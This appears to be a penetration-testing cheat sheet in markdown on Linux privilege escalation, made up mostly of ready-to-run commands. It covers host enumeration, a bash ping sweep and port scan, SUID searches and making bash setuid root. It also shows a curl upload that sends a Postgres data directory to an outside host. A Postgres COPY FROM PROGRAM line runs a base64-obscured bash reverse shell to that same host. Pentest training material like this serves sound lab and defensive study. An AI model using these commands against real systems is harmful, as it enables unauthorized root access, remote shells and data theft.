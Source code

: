 ```yaml
---
description: >-
  The root account on Linux systems provides full administrative level access to
  the operating system. Fully compromising the host would allow us to capture
  traffic and access sensitive files
---
```


# Linux Privilege Escalation

### Enumeration

```bash
# Check enviroment
env

# List processes
ps aux | grep root
ps au

# Check history
History

# Sudo 
sudo -l

# Cron Jobs
ls -la /etc/cron.daily/

# Check OS
cat /etc/os-release
cat /etc/lsb-release
uname -a

# Network
route
arp -a
ss -ltnp
netstat -ano

# Ping sweep
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;

# Port scan
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null 
```

#### Files & Directories

```bash
# Find writeable directories
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null

# Find writeable files
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

# Find hidden files
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep username

# Find hidden directories
find / -type d -name ".*" -ls 2>/dev/null

# Find user
find / -user username 2>/dev/null | grep -v '^/proc\|^/sys\|^/run'

# Find group
find / -group staff -writable 2>/dev/null | grep -v '^/proc\|^/sys\|^/run'

# Find files on extensions
find . -name '*.java'

# Webroots
ls /var/www/html
ls /var/www/html/sitename
```

#### Special permissions

```bash
# Find SUID 
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Find SGID
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

# Change owner
chown root:root bash 

# Read, write, and execute permissions to everyone
chmod 4777 bash
```

<details>

<summary>Various</summary>

```bash
# Check for append-only attribute 
lsattr script.sh
-----a--------e--- script.sh
```

</details>

#### Upload a file from host

```bash
# Install
sudo python3 -m pip install --user uploadserver

# Create certs
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Directories
mkdir https && cd https

# Start server
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file
curl -X POST https://10.10.14.2/upload -F 'files=@/var/lib/postgresql/' --insecure
```

#### Postgres command execution

```bash
# Create table
CREATE TABLE my_table (
    id SERIAL PRIMARY KEY,
    name VARCHAR(100) NOT NULL,
    position VARCHAR(50),
    salary NUMERIC(10, 2)
);

# Reverse shell
COPY my_table FROM PROGRAM 'echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzg4ODggMD4mMQ==" | base64 -d | bash';
```



#### For credential hunting&#x20;

{% content-ref url="credential-hunting.md" %}
[credential-hunting.md](credential-hunting.md)
{% endcontent-ref %}



